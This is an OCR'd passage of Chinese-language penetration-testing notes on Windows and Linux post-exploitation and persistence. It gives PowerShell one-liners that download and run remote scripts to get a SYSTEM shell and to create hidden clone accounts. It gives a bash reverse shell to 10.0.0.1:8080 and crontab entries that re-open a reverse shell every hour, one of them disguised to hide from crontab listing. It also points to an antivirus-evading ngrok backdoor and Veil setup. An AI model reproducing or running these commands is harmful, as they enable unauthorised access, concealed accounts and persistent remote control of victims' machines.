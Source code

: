 > > IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1');Invoke-TokenManipulation -CreateProcess 'cmd.exe' -Username 'nt authority\system'
>
> add user 并隐藏:
>
> > IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/3gstudent/Windows-User-Clone/master/Windows-User-Clone.ps1')
>
> win server 有密码强度要求，改为更复杂密码即可:
>
> 渗透技巧——Windows 系统的帐户隐藏
>
> > https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Windows%E7%B3%BB%E7%BB%9F%E7%9A%84%E5%B8%90%E6%88%B7%E9%9A%90%E8%97%8F/
>
> windows 的 RDP 连接记录:
>
> > http://rcoil.me/2018/05/%E5%85%B3%E4%BA%8Ewindows%E7%9A%84RDP%E8%BF%9E%E6%8E%A5%E8%AE%B0%E5%BD%95/
>
> ### linux bash
>
> > bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
>
> ``bash -i`` 交互的 shell 
>
> ``&`` 标准错误输出到标准输出
>
> ``/dev/tcp/10.0.0.1/8080`` 建立 socket ip port
>
> ``0>&1`` 标准输入到标准输出
>
> > (crontab -l;echo '*/60 * * * * exec 9<> /dev/tcp/IP/port;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i')|crontab -
>
> 猥琐版
>
> > (crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/IP/PORT;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for whoami%100c\n")|crontab -
>
> 详细介绍
>
> > https://github.com/tom0li/security_circle/blob/master/15288418585142.md
>
> ### ngrok-backdoor
>
> Grok-backdoor 是一个简单的基于 python 的后门，它使用 Ngrok 隧道进行通信。Ngrok 后门可以使用 Pyinstaller 生成 windows，linux 和 mac 二进制文件。
>
> 虽然免杀，但如果开 win 防火墙会提示，生成后门时会询问是否捆绑 ngrok，选择 no 时，在被攻击机执行时需联网下载 ngrok，运行后，telnet 连接即可.
>
> > https://github.com/deepzec/Grok-backdoor
>
> ### veil
>
> 这里，安装问题有点多，我用 kali-2018-32 安装成功，先安装下列依赖，后按照官方即可。
>
> > apt-get install libncurses5*
> >
> > apt-get install libavutil55*
> >
> > apt-get install gcc-mingw-w64*
> >